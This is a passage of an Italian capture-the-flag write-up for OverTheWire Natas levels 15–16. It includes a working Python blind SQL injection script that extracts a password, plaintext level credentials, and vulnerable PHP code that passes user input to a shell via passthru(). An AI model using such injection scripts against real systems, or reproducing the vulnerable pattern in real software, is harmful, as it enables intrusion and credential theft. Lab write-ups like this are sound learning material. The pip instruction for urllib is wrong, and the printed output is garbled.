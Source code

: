 ```python
import urllib.request as ulib

# base64 natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
headers={"Authorization" : "Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=="}
url = "http://natas15.natas.labs.overthewire.org/index.php"
alfanum = "qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM1234567890"
password = ""

for k in range(32): # Lunghezza della password
    for i in alfanum:
        print(f"Password: {password}; Try with: {i}", end="\r")
        request = url+'?username=natas16"+and+password+like+binary+"'+password+i+'%'
        payUrl = ulib.Request(url=request, headers=headers)
        if ulib.urlopen(payUrl).read().find(b'This user exists.') != -1:
            password += i
print("\n"+password)
```

Per installare la libreria `urllib`:

```sh
$ pip3 install urllib
```

Lanciamo il programma e attendiamo qualche minuto:

```sh
pietro@no-hostname:~$ /usr/bin/python enumerator.py
WaIHEacj63wnNIBROHeqi3p9t0m5nhmhp9t0m5nhmh; Try with: 0
WaIHEacj63wnNIBROHeqi3p9t0m5nhmhp9t0m5nhmh
```

Il risultato sarà la password `natas16`.

## Natas 16 :: 17
> _User:_ natas16

> _Pass:_ WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

> _URL:_ http://natas16.natas.labs.overthewire.org

Questo livello è molto simile al precendete.

![](https://i.postimg.cc/qM1sQ65m/natas16-1.png)

Il codice:

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```
